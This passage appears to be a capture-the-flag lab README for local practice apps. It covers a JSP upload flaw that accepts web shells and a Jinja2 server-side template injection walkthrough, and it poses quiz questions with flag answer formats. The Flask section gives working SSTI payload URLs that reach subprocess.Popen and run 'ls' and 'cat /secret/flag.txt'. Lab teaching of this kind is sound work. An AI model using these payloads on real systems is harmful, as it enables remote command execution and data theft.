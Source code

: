 (answer in the format of `Flag{YOUR_FLAG}`)


### Files upload

no checking, can upload jsp shell

`http://localhost:18080/fileupload.jsp`

#### ctf
1. What is the result of the command `id`?

(answer in the format of `Flag{RESULT_of_id}`)


## Python-flask challenges
SSTI vulnerability in Jinja2

`http://localhost:5000/`

Normally it is a simple calcuator, press the numbers and operators to do calculation

`http://localhost:5000/?expression=2%2B2`

To escape the Jinja sandbox and regain access to the regular Python execution flow, you need to exploit objects that, although part of the non-sandboxed environment, are still accessible from within the sandbox.

It is using Python 3.9 and Jinja2, identify the subclasses
`http://localhost:5000/?expression=[].__class__.__mro__[1].__subclasses__()`


Found that 416 is ` <class 'subprocess.Popen'>`
 `http://localhost:5000/?expression=[].__class__.__mro__[1].__subclasses__()[416]`

 To list all folders, you can use this, you can see `/secret` folder, then `ls /secret`, the `flag.txt` is located there
`http://localhost:5000/?expression=[].__class__.__mro__[1].__subclasses__()[416]([%27ls%27,%20%27/%27],%20stdout=-1).communicate()[0]`

To read `secret/flag.txt`, you can use this
`http://localhost:5000/?expression=[].__class__.__mro__[1].__subclasses__()[416]([%27cat%27,%20%27/secret/flag.txt%27],%20stdout=-1).communicate()[0]`


#### ctf
1. What is the flag?

(answer in the format of `Flag{YOUR_FLAG}`)


2. What is the payload to find all subclasses?

(answer in the format of `Flag{PAYLOAD}`)


3. What is the 416th class?

(answer in the format of `Flag{CLASS_NAME}`)


4. What is the payload to check the identify?

(answer in the format of `Flag{PAYLOAD}`)


## Nodejs challenges

`http://localhost:3000`

